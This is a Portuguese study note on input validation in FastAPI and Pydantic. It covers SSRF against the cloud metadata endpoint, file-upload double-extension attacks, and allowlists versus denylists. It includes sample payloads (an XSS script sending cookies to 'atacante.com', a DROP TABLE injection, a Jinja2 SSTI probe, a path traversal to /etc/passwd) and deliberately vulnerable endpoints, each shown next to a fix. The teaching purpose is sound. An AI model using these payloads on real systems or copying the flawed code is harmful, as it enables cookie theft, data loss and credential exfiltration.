

# Validação de input como controle de segurança

> [!abstract] TL;DR
> `HttpUrl` do Pydantic garante que um campo é uma URL **bem-formada** — não garante que ela aponte para um destino seguro. Um `str` sintaticamente perfeito passa por qualquer `BaseModel` carregando SQL injection, SSTI, um payload de XSS ou um path de path traversal — porque forma e conteúdo são camadas diferentes, e Pydantic só fecha a primeira. Esta nota desenvolve essa distinção com um caso concreto de SSRF (endpoint de metadados cloud, `169.254.169.254`) e um caso concreto de upload de arquivo malicioso — as duas situações em que "o tipo bateu" e "está seguro" divergem com mais frequência em produção. O princípio que atravessa a nota inteira é **allowlist sobre denylist**: enumerar o que é permitido é uma defesa que se mantém correta mesmo contra ataques que ninguém previu; tentar listar tudo que é perigoso é uma corrida que o atacante sempre vence, porque ele só precisa de uma variação que a lista esqueceu.

## O upload que "validava" a extensão

Uma plataforma de vagas de emprego, escrita em FastAPI, tinha um endpoint de upload de foto de perfil. O código, revisado e aprovado em *code review*, parecia cuidadoso:

```python
from fastapi import FastAPI, UploadFile, HTTPException
from pathlib import Path

app = FastAPI()

EXTENSOES_PERMITIDAS = {".jpg", ".jpeg", ".png"}
DIRETORIO_UPLOADS = Path("/var/www/uploads")


@app.post("/perfil/foto")
async def upload_foto(arquivo: UploadFile):
    extensao = Path(arquivo.filename).suffix.lower()

    if extensao not in EXTENSOES_PERMITIDAS:
        raise HTTPException(400, detail="Formato não permitido")

    destino = DIRETORIO_UPLOADS / arquivo.filename
    conteudo = await arquivo.read()
    destino.write_bytes(conteudo)

    return {"url": f"/uploads/{arquivo.filename}"}
```

Passa em qualquer teste manual: sobe um `foto.jpg` de verdade, a checagem de extensão deixa passar, o arquivo é salvo, a URL retorna, a foto aparece no perfil. O time considerou "validado" porque a `if extensao not in EXTENSOES_PERMITIDAS` estava lá, visível, óbvia, revisada.

O servidor de arquivos estáticos que servia `/uploads/` era o Nginx, configurado — por um motivo perdido na história do projeto, provavelmente copiado de um tutorial antigo — para interpretar arquivos `.php` dentro daquele diretório específico como scripts PHP, não como arquivos estáticos servidos ao browser. Um atacante enviou um arquivo chamado `avatar.php.jpg`: o conteúdo era um web shell PHP simples, o `Path(...).suffix` de `"avatar.php.jpg"` retornava `.jpg` (o `Path.suffix` só olha a última extensão do nome, não o nome inteiro), a checagem passava, o arquivo era salvo com o nome original enviado pelo cliente — `avatar.php.jpg` — e o Nginx mal configurado, ao ver `.php` em qualquer posição do nome do arquivo dentro daquele diretório, o executava como script.

> [!bug] O que estava quebrado, em uma frase
> A validação checava um **metadado que o próprio atacante controla** (o nome do arquivo, incluindo a extensão declarada) em vez do **conteúdo real** do arquivo — e além disso confiava nesse mesmo nome controlado pelo atacante para decidir onde e como salvar o arquivo no disco.

Dois erros distintos, empilhados num só endpoint: confiar na extensão do nome do arquivo como se fosse prova de tipo de conteúdo, e usar o nome fornecido pelo cliente como nome de arquivo real no servidor. As próximas seções desenvolvem por que os dois são a mesma categoria de erro que aparece em SSRF, em injeção, em XSS — e por que a correção de fundo é sempre a mesma pergunta: **esta validação está checando o que o atacante controla, ou algo que ele não controla?**

## O que a validação de tipo do Pydantic realmente fecha

Vale ser preciso sobre o que `BaseModel` entrega, porque a nota não existe para desqualificar Pydantic — existe para traçar a fronteira exata do que ele resolve. O [[03-Dominios/Tecnologia/Python/Web e APIs REST/03 - Validação e serialização com Pydantic|Galho 10, nota 03]] já cobriu o mecanismo (construtor validado, `Field()`, `@field_validator`, `response_model`); esta nota não repete nada disso — assume o vocabulário conhecido e revisita só o que interessa sob lente de segurança.

Pydantic fecha, de forma real e mensurável, uma classe inteira de bug: **payload malformado que quebra a aplicação antes mesmo de chegar na lógica de negócio**. Sem validação de tipo, um endpoint que espera `idade: int` e recebe `{"idade": "trinta e cinco"}` só descobre o problema na primeira operação aritmética que usa esse valor — um `TypeError` tarde, sem contexto, possivelmente vazando um traceback pro cliente (e stack trace exposta é, ela mesma, uma categoria do OWASP Top 10 — A05, Security Misconfiguration, coberta na [[06 - Secrets e configuração segura|nota 06 deste galho]]).

```python
from pydantic import BaseModel, Field, HttpUrl


class WebhookConfig(BaseModel):
    nome: str = Field(min_length=1, max_length=100)
    callback_url: HttpUrl
    tentativas_maximas: int = Field(gt=0, le=10)
```

Três garantias reais que esse `BaseModel` entrega, sem uma linha de código manual:

- **`nome` é uma `str` não vazia, com no máximo 100 caracteres** — qualquer coisa fora disso vira HTTP 422 antes da função de rota rodar.
- **`callback_url` é sintaticamente uma URL válida** — tem esquema (`http`/`https`), tem host, está bem-formada segundo a RFC de URL.
- **`tentativas_maximas` é um inteiro entre 1 e 10** — não uma string numérica não convertida, não um float truncado silenciosamente, não um valor fora do intervalo de negócio.

Essas três garantias fecham uma classe de bug genuinamente séria: aplicação que quebra, comportamento indefinido com tipo errado, DoS trivial por payload absurdamente grande num campo sem `max_length`. Não é pouco — é a diferença entre uma API que rejeita input ruim de forma previsível (HTTP 422 estruturado) e uma que propaga o input ruim até ele quebrar algo, em algum ponto imprevisível do código.

> [!tip] Isso não é "Pydantic é fraco" — é "Pydantic resolve o problema que ele se propõe a resolver"
> Nenhuma ferramenta de validação de schema — Pydantic, JSON Schema, Zod no mundo JS, Bean Validation em Java — se propõe a validar *semântica de negócio ou destino de rede*. Isso é trabalho de outra camada, deliberadamente fora do escopo de um validador de tipo. O erro não é usar Pydantic; é achar que ele cobre mais do que cobre.

## O que a validação de tipo não fecha: forma válida não é conteúdo seguro

Aqui está o coração da nota. Um `str` sintaticamente válido — que passa por qualquer `Field(min_length=..., max_length=...)`, qualquer regex de formato, qualquer `EmailStr` ou `HttpUrl` — ainda pode carregar, dentro dele, qualquer coisa que o próprio Python trata como texto comum:

```python
from pydantic import BaseModel, Field


class ComentarioEntrada(BaseModel):
    texto: str = Field(min_length=1, max_length=500)


# Todos os três exemplos abaixo VALIDAM sem erro — são strings bem-formadas
ComentarioEntrada(texto="Ótimo produto, recomendo!")
ComentarioEntrada(texto="'; DROP TABLE usuarios; --")
ComentarioEntrada(texto="<script>fetch('https://atacante.com/?c='+document.cookie)</script>")
ComentarioEntrada(texto="{{ ''.__class__.__mro__[1].__subclasses__() }}")
```

Os quatro valores acima são, do ponto de vista do Pydantic, **exatamente equivalentes**: todos são `str`, todos respeitam `min_length=1` e `max_length=500`. A validação de tipo passa nos quatro casos, com o mesmo veredito de "válido". Mas o segundo é uma tentativa de SQL injection (`DROP TABLE` via concatenação de string não parametrizada — a defesa real, bind parameters, está no [[03-Dominios/Tecnologia/Python/Persistência de dados/01 - SQLAlchemy Core — Engine, Connection e expressão SQL|Galho 9, nota 01]]); o terceiro é um payload clássico de XSS armazenado (a defesa real, autoescape de template, está na [[03 - XSS e CSRF nos frameworks Python|nota 03 deste galho]]); o quarto é a assinatura de um ataque de SSTI contra Jinja2, explorando a cadeia `__class__.__mro__` até uma classe capaz de executar código arbitrário (a defesa real está na [[02 - Injeção — SQL, template, comando e deserialização insegura|nota 02 deste galho]]).

> [!warning] Tipo válido ≠ seguro
> Nenhum dos três ataques acima é interceptado por `Field(min_length=..., max_length=...)`, `EmailStr`, `HttpUrl`, ou qualquer combinação de constraints declarativas do Pydantic — porque nenhum deles quebra a regra de **forma**. Eles quebram a regra de **conteúdo semântico num contexto específico**: o que aquele texto vai *fazer* quando chegar numa query SQL não parametrizada, num template renderizado com `|safe`, ou num `subprocess.run(shell=True)`. Validação de tipo e validação de segurança são camadas diferentes, resolvidas por mecanismos diferentes — a primeira não substitui a segunda, e tratar HTTP 422 como "já tá seguro" é o erro de raciocínio mais recorrente que este galho existe para corrigir.

Path traversal segue exatamente o mesmo padrão. `../../etc/passwd` é uma `str` perfeitamente bem-formada — nenhum `Field(min_length=1)` ou até `Field(pattern=r"^[\w.-]+$")` malfeito necessariamente barra ela, dependendo de como o regex foi escrito:

```python
from pydantic import BaseModel, Field


class NomeArquivoEntrada(BaseModel):
    # regex "razoável", mas incompleto: permite ".", que permite "..", que permite escapar do diretório
    nome: str = Field(pattern=r"^[\w.\-/]+$", max_length=255)


NomeArquivoEntrada(nome="../../../etc/passwd")  # VALIDA — o regex aceita ponto e barra
```

O regex acima parece razoável à primeira leitura — letras, números, ponto, hífen, barra — mas admite exatamente a sequência `../` que compõe um ataque de path traversal, porque ponto e barra são caracteres legítimos em nomes de arquivo comuns e o regex não distingue "um ponto isolado" de "dois pontos seguidos formando `..`". A seção sobre upload de arquivo, mais à frente, desenvolve a defesa real — que não é "escrever um regex melhor", é não usar o nome fornecido pelo cliente para nada que toque o sistema de arquivos.



Cada camada do diagrama resolve um problema que a camada anterior **não** resolve — e é comum um sistema parar na primeira camada (só Pydantic) achando que cobriu as três, porque as três produzem o mesmo sintoma superficial de "o campo foi validado".

> [!question]- Se `Field(pattern=...)` não é confiável contra path traversal, por que ele existe?
> Ele continua sendo útil — só não é a defesa completa sozinho. Um regex de formato reduz a superfície de ataque (rejeita, por exemplo, qualquer caractere de controle, espaço, ou símbolo fora de um conjunto esperado) e serve como primeira barreira barata, resolvida em Rust pelo `pydantic-core`, antes de qualquer lógica mais cara rodar. O erro não é usar `pattern`, é **parar nele** e achar que path traversal está resolvido. A defesa completa contra path traversal em upload de arquivo, desenvolvida mais adiante nesta nota, não depende de regex nenhum: é nunca usar o nome fornecido pelo cliente como nome de arquivo real no disco.

## SSRF: o `HttpUrl` que valida forma, não destino

O caso mais didático de "tipo válido ≠ seguro" é SSRF (Server-Side Request Forgery, A10 do OWASP Top 10, já introduzido no [[01 - OWASP Top 10 aplicado a Python web — o mapa|mapa deste galho]]) — porque o campo em questão passa por um tipo do Pydantic que *parece* especificamente desenhado pra resolver o problema, e não resolve.

```python
from fastapi import FastAPI
from pydantic import BaseModel, HttpUrl
import httpx

app = FastAPI()


class WebhookConfig(BaseModel):
    callback_url: HttpUrl


@app.post("/webhooks/configurar")
async def configurar_webhook(config: WebhookConfig):
    # "callback_url já foi validado pelo Pydantic, está seguro fazer a requisição"
    async with httpx.AsyncClient() as client:
        resposta = await client.get(str(config.callback_url))
    return {"status": resposta.status_code}
```

`HttpUrl` garante que `callback_url` tem esquema `http`/`https`, tem um host sintaticamente válido, está bem-formada segundo a especificação de URL. Isso é **exatamente** o que ele se propõe a garantir — e é também exatamente por isso que ele não ajuda aqui: nada na especificação de "URL bem-formada" distingue `https://api.parceiro-legitimo.com/webhook` de `http://169.254.169.254/latest/meta-data/iam/security-credentials/`. Os dois são URLs igualmente válidas. Um atacante que controla o campo `callback_url` de um endpoint de configuração de webhook pode apontar `169.254.169.254` — o endpoint de metadados da instância, presente por padrão em AWS, GCP e Azure, e alcançável **de dentro** da rede da instância sem autenticação alguma — e o servidor, confiando que "o Pydantic já validou", faz a requisição por ele. A resposta pode conter credenciais temporárias de IAM, tokens de service account, ou outro segredo que a instância usa para se autenticar com serviços cloud — exfiltrados através do próprio servidor da aplicação, sem que o atacante precise de acesso de rede direto a nada além do endpoint público de webhook.

> [!warning] SSRF não exige nenhuma "vulnerabilidade de código" no sentido tradicional
> Não há injeção, não há string mal escapada, não há tipo errado. O código faz exatamente o que foi escrito para fazer — recebe uma URL, valida o formato, faz uma requisição HTTP pra ela. O bug é de **modelo de confiança**: o servidor assume que qualquer URL sintaticamente válida é um destino seguro para ele mesmo fazer uma requisição, quando na verdade o servidor tem acesso de rede a lugares (rede interna, metadados de instância, outros serviços do cluster) que o cliente que forneceu a URL nunca teria diretamente. É esse acesso privilegiado do servidor que o atacante empresta via SSRF.

A defesa real precisa de uma camada que o Pydantic, por design, não tem trabalho de cobrir: resolver o host para IP e checar esse IP contra faixas reservadas/privadas, **antes** de qualquer requisição sair do servidor — e checar de novo depois de qualquer redirect, porque um destino inicial aprovado pode redirecionar para um destino interno.

```python
import ipaddress
import socket
from urllib.parse import urlparse

import httpx
from fastapi import HTTPException
from pydantic import BaseModel, HttpUrl

# Faixas que nunca deveriam ser alcançadas por uma requisição de saída do servidor
FAIXAS_BLOQUEADAS = [
    ipaddress.ip_network("127.0.0.0/8"),      # loopback
    ipaddress.ip_network("10.0.0.0/8"),       # rede privada
    ipaddress.ip_network("172.16.0.0/12"),    # rede privada
    ipaddress.ip_network("192.168.0.0/16"),   # rede privada
    ipaddress.ip_network("169.254.0.0/16"),   # link-local — inclui o endpoint de metadados cloud
    ipaddress.ip_network("::1/128"),          # loopback IPv6
    ipaddress.ip_network("fc00::/7"),         # unique local IPv6
]


class WebhookConfig(BaseModel):
    callback_url: HttpUrl


def validar_destino_seguro(url: str) -> None:
    host = urlparse(url).hostname
    if host is None:
        raise HTTPException(400, detail="URL sem host")

    try:
        enderecos = socket.getaddrinfo(host, None)
    except socket.gaierror:
        raise HTTPException(400, detail="Não foi possível resolver o host")

    for familia, _, _, _, endereco_bruto in enderecos:
        ip = ipaddress.ip_address(endereco_bruto[0])
        if any(ip in faixa for faixa in FAIXAS_BLOQUEADAS):
            raise HTTPException(400, detail="Destino não permitido")


async def configurar_webhook(config: WebhookConfig):
    validar_destino_seguro(str(config.callback_url))

    async with httpx.AsyncClient(follow_redirects=False) as client:  # redirect precisa ser revalidado, não seguido cegamente
        resposta = await client.get(str(config.callback_url))
    return {"status": resposta.status_code}
```

Dois detalhes desse código merecem nome explícito porque costumam ser esquecidos mesmo por quem já sabe que SSRF existe:

- **`follow_redirects=False`** — um destino inicial aprovado pela checagem (`https://api.parceiro.com/webhook`) pode devolver um `302` redirecionando para `http://169.254.169.254/...`. Se o cliente HTTP segue redirects automaticamente, a checagem de IP feita antes da primeira requisição não protege contra o destino final. A checagem precisa rodar de novo a cada salto, ou os redirects precisam ser desligados e tratados manualmente.
- **Resolver o host explicitamente com `socket.getaddrinfo()`**, não confiar em nenhuma checagem baseada só na string da URL — porque DNS rebinding (um domínio que resolve para um IP público na hora da validação e para um IP interno na hora da requisição de verdade) contorna qualquer checagem que não resolva DNS no momento exato da requisição.

> [!question]- Isso não é redundante com um firewall/proxy de saída no nível de infraestrutura?
> Não é redundante — é defesa em profundidade, e a camada de infraestrutura sozinha não é suficiente na prática. Um proxy de saída (egress filtering) bloqueando tráfego para faixas privadas é uma camada real e recomendada — o [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html) lista as duas camadas (validação na aplicação + controle de rede) como complementares, não substitutas uma da outra. A razão prática de nunca depender só do proxy: nem todo ambiente tem um configurado corretamente (containers em cloud às vezes têm rota direta pro endpoint de metadados sem passar por proxy algum), e a validação na aplicação é a única camada que o time de desenvolvimento controla diretamente, sem depender de uma equipe de infra ter configurado a rede certo.

## Allowlist vale mais que denylist — o princípio por trás de tudo isso

As duas defesas desenvolvidas até aqui — faixas de IP bloqueadas para SSRF, colunas permitidas para `ORDER BY` no [[01 - OWASP Top 10 aplicado a Python web — o mapa|mapa deste galho]] — parecem, à primeira vista, contraditórias: uma é uma lista do que é **proibido** (denylist), a outra é uma lista do que é **permitido** (allowlist). Vale nomear explicitamente por que a segunda é estruturalmente mais segura, porque essa distinção reaparece em praticamente toda decisão de validação de segurança.

**Denylist** enumera o que é perigoso e bloqueia isso. O problema estrutural: exige que quem escreveu a lista tenha antecipado **todas** as formas possíveis de ataque — e um atacante só precisa encontrar uma variação que a lista esqueceu. Um filtro de XSS que bloqueia `<script>` mas não pensa em ``, `<svg onload=...>`, ou codificação HTML/URL do mesmo payload é uma denylist incompleta por construção, porque a superfície de variações é, na prática, ilimitada.

**Allowlist** enumera o que é permitido e rejeita **qualquer outra coisa**, sem tentar prever a forma exata do ataque. `COLUNAS_PERMITIDAS = {"id", "titulo", "criado_em"}` não precisa saber que existe uma técnica de SQL injection via `ORDER BY` com `CASE WHEN` — ela simplesmente não deixa passar nada que não esteja no conjunto fechado de três valores, e é, por construção, imune a qualquer técnica de exploit que alguém venha a inventar contra aquele campo específico.

```python
# Denylist: tenta prever ataques específicos — frágil por natureza
def sanitizar_denylist(nome_coluna: str) -> str:
    proibidos = ["DROP", "DELETE", "--", ";", "UNION"]
    for termo in proibidos:
        if termo.lower() in nome_coluna.lower():
            raise ValueError("nome de coluna suspeito")
    return nome_coluna  # passa qualquer coisa que não contenha os termos listados


# Allowlist: enumera o universo permitido — seguro por construção
COLUNAS_PERMITIDAS = {"id", "titulo", "criado_em"}

def validar_allowlist(nome_coluna: str) -> str:
    if nome_coluna not in COLUNAS_PERMITIDAS:
        raise ValueError(f"coluna não permitida: {nome_coluna}")
    return nome_coluna
```

A função `sanitizar_denylist` deixa passar `"id, (SELECT senha FROM usuarios LIMIT 1)"` sem disparar nenhum dos termos da lista — porque o autor da lista não pensou nessa variação específica. A função `validar_allowlist` rejeita a mesma entrada automaticamente, sem precisar conhecer a técnica de exploit, só porque a string inteira não é exatamente `"id"`, `"titulo"` ou `"criado_em"`.

> [!tip] Allowlist não é sempre possível — mas é sempre preferível quando é
> Existem campos onde o universo de valores válidos é genuinamente amplo demais para enumerar (um campo de "biografia" em texto livre não tem allowlist de conteúdo possível). Nesses casos, a defesa muda de forma — vira sanitização estrutural (autoescape, bind parameters) em vez de allowlist de valores. Mas sempre que o universo de valores válidos É enumerável — nomes de coluna, extensões de arquivo aceitas, faixas de IP de destino, métodos HTTP permitidos — allowlist é a escolha default, não uma opção entre outras.

## Upload de arquivo: o caso prático que junta as três camadas

O incidente de abertura desta nota mostrou dois erros empilhados. Vale desenvolver a correção completa, porque upload de arquivo é o cenário onde as três camadas do diagrama — forma, conteúdo, destino — aparecem juntas com mais clareza.

### Erro 1: confiar na extensão declarada

`Path(arquivo.filename).suffix` (ou o equivalente em qualquer linguagem) lê um metadado que **o cliente escolheu e enviou** — não uma propriedade intrínseca do arquivo. Renomear `shell.php` para `foto.jpg` não muda um único byte do conteúdo do arquivo; muda só o que está escrito depois do último ponto no nome, e esse nome é inteiramente controlado por quem está fazendo o upload.

A defesa real não olha o nome — olha os **magic bytes**, a assinatura binária que formatos de arquivo reais têm nos primeiros bytes do conteúdo, independente de como o arquivo foi nomeado:

```python
MAGIC_BYTES = {
    b"\xff\xd8\xff": "image/jpeg",
    b"\x89PNG\r\n\x1a\n": "image/png",
    b"GIF87a": "image/gif",
    b"GIF89a": "image/gif",
}

TIPOS_PERMITIDOS = {"image/jpeg", "image/png", "image/gif"}


def detectar_tipo_real(conteudo: bytes) -> str | None:
    for assinatura, tipo_mime in MAGIC_BYTES.items():
        if conteudo.startswith(assinatura):
            return tipo_mime
    return None


async def validar_upload(conteudo: bytes) -> str:
    tipo_real = detectar_tipo_real(conteudo)
    if tipo_real is None or tipo_real not in TIPOS_PERMITIDOS:
        raise HTTPException(400, detail="Tipo de arquivo não permitido")
    return tipo_real
```

Um arquivo `avatar.php.jpg` cujo conteúdo começa com `<?php` não começa com nenhuma das assinaturas de `MAGIC_BYTES` — a checagem rejeita ele independentemente do nome, porque olha o conteúdo real, não o rótulo que o atacante escolheu colocar nele. Em produção, essa checagem geralmente é feita por uma biblioteca dedicada (como `python-magic`, um binding para a `libmagic` do Unix, que reconhece centenas de assinaturas de formato) em vez de uma tabela manual — o princípio é o mesmo: **classificar pelo conteúdo, nunca pelo nome ou pela extensão declarada**.

> [!warning] `Content-Type` do header HTTP também é controlado pelo atacante
> O mesmo raciocínio vale para o header `Content-Type` que o navegador/cliente envia junto com o upload — ele também é escolhido por quem faz a requisição, não verificado pelo servidor até que alguém verifique de fato. Um atacante usando `curl` ou um cliente HTTP customizado pode declarar `Content-Type: image/jpeg` para qualquer conteúdo arbitrário. Confiar em `Content-Type` do request tem exatamente a mesma fragilidade que confiar na extensão do nome do arquivo — os dois são metadados fornecidos pelo cliente, não fatos verificados pelo servidor.

### Erro 2: salvar com o nome fornecido pelo cliente

Mesmo depois de validar o conteúdo real, salvar o arquivo usando `arquivo.filename` (o nome que o cliente enviou) continua sendo um risco — porque esse nome é uma `str` completamente controlada pelo atacante, e uma `str` como `"../../../etc/cron.d/malicioso"` é tão válida sintaticamente quanto `"foto.jpg"`. Se o servidor concatena esse nome diretamente a um diretório de destino, o atacante decide onde no sistema de arquivos o conteúdo é escrito — path traversal na escrita, não só na leitura.

```python
import uuid
from pathlib import Path

DIRETORIO_UPLOADS = Path("/var/www/uploads")


async def salvar_upload_seguro(conteudo: bytes, tipo_mime: str) -> str:
    extensao = {"image/jpeg": ".jpg", "image/png": ".png", "image/gif": ".gif"}[tipo_mime]

    # Nome gerado pelo SERVIDOR — nunca o nome enviado pelo cliente
    nome_gerado = f"{uuid.uuid4()}{extensao}"
    destino = DIRETORIO_UPLOADS / nome_gerado

    destino.write_bytes(conteudo)
    return nome_gerado
```

`uuid.uuid4()` gera um identificador que não tem relação nenhuma com nenhum dado fornecido pelo cliente — não há `../` possível para injetar, porque o servidor nunca lê o nome do cliente para decidir onde escrever. A extensão usada no nome final também vem do **tipo real detectado** (`tipo_mime`, resultado de `detectar_tipo_real()`), não do nome declarado — fechando os dois erros do incidente de abertura na mesma função.

### Erro 3 (não presente no incidente, mas comum no mesmo tipo de endpoint): ausência de limite de tamanho

Um terceiro cuidado, que o incidente de abertura não tinha mas que pertence à mesma família de validação: sem limite explícito de tamanho, um upload de arquivo é um vetor trivial de negação de serviço — um cliente envia um arquivo de dezenas de gigabytes, e o `await arquivo.read()` inteiro na memória (como no código do incidente original) derruba o processo por exaustão de memória antes mesmo de qualquer validação de conteúdo rodar.

```python
TAMANHO_MAXIMO_BYTES = 5 * 1024 * 1024  # 5 MB


async def ler_com_limite(arquivo: UploadFile) -> bytes:
    conteudo = await arquivo.read(TAMANHO_MAXIMO_BYTES + 1)
    if len(conteudo) > TAMANHO_MAXIMO_BYTES:
        raise HTTPException(413, detail="Arquivo excede o tamanho máximo permitido")
    return conteudo
```

Ler `TAMANHO_MAXIMO_BYTES + 1` bytes (em vez de ler o arquivo inteiro sem limite) permite detectar que o arquivo excede o limite sem precisar carregar um upload arbitrariamente grande inteiro na memória antes de rejeitá-lo — o servidor nunca aloca mais que o limite mais um byte, não importa o tamanho real do que o cliente está tentando enviar.

### O endpoint completo, juntando as três defesas

```python
from fastapi import FastAPI, UploadFile, HTTPException
from pydantic import BaseModel
import uuid
from pathlib import Path

app = FastAPI()

MAGIC_BYTES = {
    b"\xff\xd8\xff": ("image/jpeg", ".jpg"),
    b"\x89PNG\r\n\x1a\n": ("image/png", ".png"),
}
TAMANHO_MAXIMO_BYTES = 5 * 1024 * 1024
DIRETORIO_UPLOADS = Path("/var/www/uploads")


@app.post("/perfil/foto")
async def upload_foto(arquivo: UploadFile):
    conteudo = await arquivo.read(TAMANHO_MAXIMO_BYTES + 1)
    if len(conteudo) > TAMANHO_MAXIMO_BYTES:
        raise HTTPException(413, detail="Arquivo excede o tamanho máximo permitido")

    tipo_detectado = None
    for assinatura, (tipo_mime, extensao) in MAGIC_BYTES.items():
        if conteudo.startswith(assinatura):
            tipo_detectado = (tipo_mime, extensao)
            break

    if tipo_detectado is None:
        raise HTTPException(400, detail="Tipo de arquivo não permitido")

    _, extensao = tipo_detectado
    nome_gerado = f"{uuid.uuid4()}{extensao}"  # nome do SERVIDOR, nunca o do cliente
    (DIRETORIO_UPLOADS / nome_gerado).write_bytes(conteudo)

    return {"url": f"/uploads/{nome_gerado}"}
```

Repare que o campo `arquivo.filename` — o único dado que o código original do incidente de abertura de fato consultava para tomar decisões de segurança — não é lido em nenhum momento desta versão corrigida, exceto implicitamente pelo FastAPI para fins de log/debug. Toda decisão de segurança (tipo permitido, tamanho, nome de arquivo no disco) usa dado que o servidor controla ou verifica diretamente, nunca um metadado que o cliente escolheu.

## Armadilhas comuns

> [!warning] Achar que HTTP 422 significa "input seguro"
> **O que acontece:** um endpoint recebe payload malicioso (SQLi, SSTI, XSS) que é sintaticamente uma `str` válida, passa pela validação Pydantic sem erro (porque não é isso que Pydantic verifica), e o time trata "não deu 422" como sinônimo de "está seguro". **Por quê:** HTTP 422 é o sintoma de uma falha de **forma** (tipo errado, campo ausente, constraint de `Field()` violada) — payload malicioso bem-formado nunca dispara 422, porque ele é, sintaticamente, exatamente o tipo esperado. **Como evitar:** tratar validação de tipo e validação de segurança como duas camadas distintas e obrigatórias, nunca uma como substituta da outra — o diagrama desta nota (forma → conteúdo → destino) é o checklist mental.

> [!warning] Validar `HttpUrl` e considerar SSRF resolvido
> **O que acontece:** um campo de URL usa `HttpUrl` do Pydantic, o time assume que "URL validada" cobre segurança de rede, e nenhuma checagem de destino é implementada. **Por quê:** `HttpUrl` verifica formato de URL — esquema, host sintaticamente válido — não verifica para qual IP aquele host resolve, nem se esse IP está numa faixa privada/interna que o servidor tem acesso privilegiado a alcançar. **Como evitar:** para qualquer campo de URL que o servidor vai efetivamente requisitar (webhooks, integrações, proxies de imagem), resolver o host e checar o IP contra faixas bloqueadas antes da requisição sair, e desligar/revalidar redirects — nunca confiar só no tipo do campo.

> [!warning] Confiar em extensão de nome de arquivo ou `Content-Type` do request
> **O que acontece:** um endpoint de upload valida `Path(nome).suffix` ou o header `Content-Type` da requisição, e trata isso como prova do tipo real do conteúdo. **Por quê:** os dois são metadados fornecidos pelo cliente, sem verificação — renomear um arquivo ou declarar um header falso não exige nenhuma técnica sofisticada, é uma edição de texto trivial antes de enviar a requisição. **Como evitar:** verificar magic bytes (assinatura binária real do conteúdo) contra uma allowlist de formatos permitidos — nunca confiar em nada que o cliente declarou sobre o próprio arquivo.

> [!warning] Salvar upload com o nome original enviado pelo cliente
> **O que acontece:** o servidor usa `arquivo.filename` diretamente como nome do arquivo no disco, sem sanitizar ou substituir. **Por quê:** o nome do arquivo é uma `str` como qualquer outra, controlada inteiramente pelo cliente — pode conter sequências de path traversal (`../`), caracteres especiais do sistema de arquivos, ou colidir de propósito com um arquivo existente que o atacante quer sobrescrever. **Como evitar:** gerar o nome do arquivo no servidor (UUID, hash do conteúdo, ID sequencial do banco) e nunca deixar nenhum caractere do nome fornecido pelo cliente chegar a uma chamada de sistema de arquivos.

> [!warning] Escrever denylist esperando cobrir todos os ataques possíveis
> **O que acontece:** uma lista de "termos proibidos" ou "padrões bloqueados" é escrita, testada contra os ataques conhecidos no momento, aprovada — e um atacante encontra uma variação, uma codificação alternativa, ou uma técnica nova que a lista não previu. **Por quê:** denylist exige que o defensor tenha antecipado o ataque **antes** do atacante — uma corrida estruturalmente perdida, porque o espaço de variações possíveis de qualquer payload malicioso é, na prática, maior do que qualquer lista consegue enumerar. **Como evitar:** sempre que o universo de valores legítimos for enumerável (colunas de ordenação, extensões de arquivo, faixas de IP, métodos HTTP), usar allowlist — rejeitar tudo que não está explicitamente permitido, em vez de tentar prever tudo que é perigoso.

## Em entrevista

- **"Pydantic já resolve segurança de input numa API?"** Resolve uma parte real — forma bem-formada, tipos corretos, constraints declarativas — e fecha uma classe legítima de bug (payload malformado quebrando a aplicação). Não resolve conteúdo malicioso dentro de um tipo válido (SQLi, SSTI, XSS, path traversal — todos passam por `str` sintaticamente correta) nem destino perigoso de uma URL validada (`HttpUrl` garante formato, não que o IP resolvido não é uma faixa privada — o vetor de SSRF).
